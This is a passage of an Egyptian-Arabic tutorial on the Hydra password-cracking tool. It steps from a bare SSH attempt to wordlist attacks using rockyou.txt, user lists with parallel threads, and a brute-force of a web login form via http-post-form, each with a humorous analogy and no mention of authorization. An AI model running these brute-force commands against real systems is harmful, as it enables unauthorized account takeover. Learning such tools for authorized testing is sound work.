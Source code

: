 
### 3. الأوامر في Hydra: من الأبسط للمتقدم
هنبدأ بأبسط أمر ونتدرج للأوامر المتقدمة.

#### أبسط أمر ممكن
- hydra 192.168.1.1 ssh

- 192.168.1.1: عنوان السيرفر.
- ssh: نوع الخدمة.
- هنا Hydra هتجرب مستخدم وكلمة سر افتراضيين (زي root وpassword) لو مدتهاش حاجة.

مثال طريف: "ده زي ما تبعت واحد يخبط على باب بيتك من غير ما تديله اسمك، هيقعد يقول: محمد؟ أحمد؟ لحد ما حد يرد!"

---

#### إضافة اسم مستخدم وكلمة سر واحدة
لو عايز تتحكم في اللي بتجربة:
- hydra -l admin -p 123456 192.168.1.1 ssh

- -l admin: اسم المستخدم "admin".
- -p 123456: كلمة السر "123456".
- 192.168.1.1 ssh: الهدف ونوع الخدمة.

مثال طريف: "كده زي ما تقول للراجل: جرب المفتاح ده بس على الباب، لو مش نفع نجرب غيره بعدين!"

---

#### استخدام قايمة كلمات مرور (Wordlist)
لو عايز تجرب كلمات سر كتير:
- hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh

- -P /usr/share/wordlists/rockyou.txt: قايمة كلمات مرور (زي rockyou.txt).

مثال طريف: "ده زي ما تدي الراجل كومة مفاتيح وتقوله: جرب دول كلهم، أكيد واحد فيهم هيفتح!"

---

#### إضافة قايمة مستخدمين وتسريع العملية
لو عندك أكتر من مستخدم وكلمات سر:
- hydra -L /usr/share/wordlists/users.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh -t 4

- -L /usr/share/wordlists/users.txt: قايمة مستخدمين.
- -t 4: 4 محاولات في نفس الوقت.

مثال طريف: "كده زي ما تبعت 4 شيالين مع كل واحد كومة مفاتيح، وتقولهم: جربوا كده وشوفوا مين هيفتح الأول!"

---

#### استهداف صفحة ويب (HTTP)
لو عايز تكسر صفحة لوجن على موقع (لازم تعرف الحقول من كود الـ HTML):
- hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com http-post-form "/login:user=^USER^&pass=^PASS^:Login failed"

- http-post-form: نوع الخدمة (صفحة لوجن بـ POST).
- /login:user=^USER^&pass=^PASS^:Login failed: مسار الصفحة وحقولها ورسالة الخطأ.
